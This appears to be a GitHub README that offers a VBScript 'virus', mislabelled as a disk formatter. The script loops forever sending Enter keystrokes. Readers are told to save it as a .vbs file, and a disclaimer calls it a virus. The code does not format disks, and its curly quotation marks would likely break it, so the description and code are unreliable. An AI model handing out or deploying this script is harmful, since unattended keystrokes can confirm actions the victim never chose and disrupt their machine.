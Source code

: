 # Disk Formatter EXE File Virus/Programme 
This code will Continuously Hit Enter Button After Executing The Files. 
<br>
# or
<br>
copy the following code in notepad and save that with .vbs extention

```
 Set wshShell = wscript.CreateObject(”WScript.Shell”)
 do
 wscript.sleep 100
 wshshell.sendkeys “~(enter)”
 loop
```
# Disclaimer
This Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

